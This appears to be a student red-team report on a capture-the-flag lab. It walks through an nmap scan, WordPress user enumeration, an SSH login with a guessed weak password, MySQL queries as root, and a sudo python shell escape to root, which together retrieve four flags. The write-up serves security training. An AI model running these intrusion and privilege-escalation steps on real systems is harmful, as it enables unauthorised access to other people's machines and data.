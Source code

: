 # Red Team: Summary of Operations

## Table of Contents

## Exposed Services

Critical Vulnerabilities
Exploitation

## Exposed Services
Nmap scan results for each machine reveal the below services and OS details:

$ nmap -sS -v -A 192.168.1.110/24
![Activity Day 2 part 1  command nmap -sS -v -A](https://user-images.githubusercontent.com/88813019/157799806-92218ca1-45ea-42da-98a9-9e6ead4560ae.PNG)

Insert scan output

This scan identifies the services below as potential points of entry:

### Target 1:

List of Exposed Services:
- Port 22 (SSH)
- Port 80 (HTTP)
- Port 111 (rcpbind)

The following vulnerabilities were identified on each target:

- Identification and Authentication Failures
- Weak passwords
- Unprotected files
- User Enumeration (WordPress)

## Exposed Services

The following vulnerabilities were identified on each target:

#### Target 1
We ran the command: wpscan --url http://192.168.1.110/wordpress --enumerate u
This command will find the usernames "michael" and "steven" 

We guess michaels password which is "michael"

![Activity Day 2 Part 1  users](https://user-images.githubusercontent.com/88813019/157802049-21bb43d6-8306-4f51-9368-67f0d35b9089.PNG)

- Using ssh michael@192.168.1.110 with his password "michael" to gain access to his account.

## Exploitation

The Red Team was able to penetrate Target 1 and retrieve the following confidential data:

### Target 1

flag1.txt:

![Activity 1 Day 2  Flag 1 1](https://user-images.githubusercontent.com/88813019/157802938-dcb745a7-11a9-4f9a-8c27-76c080b6111e.PNG)

Command used: $grep flag * 1 service.html

flag2.txt: 

![Activity Day 2 Part 1  Flag 2](https://user-images.githubusercontent.com/88813019/157804510-9c3fab66-b2b7-4404-b403-023905c19974.PNG)

Command used: cat flag2.txt

flag3.txt: 

![flag3](https://user-images.githubusercontent.com/88813019/157804799-9bc22142-63ab-4ace-b189-837a8d1e5e6d.png)

Commands used: 
- mysql -h localost -u root -p
- show databases;
- use wordpress;
- show tables;
- select * from wp_posts;

Flag4.txt: 

![Activity 1 Day 2 part 7 1](https://user-images.githubusercontent.com/88813019/157805372-dfeeeb22-d81e-4091-b72d-4470cf44e2ae.PNG)

Commands used:
- sudo python -c 'import os; os.system("/bin/sh")'
- cd /root
- ls
- cat flag4.txt
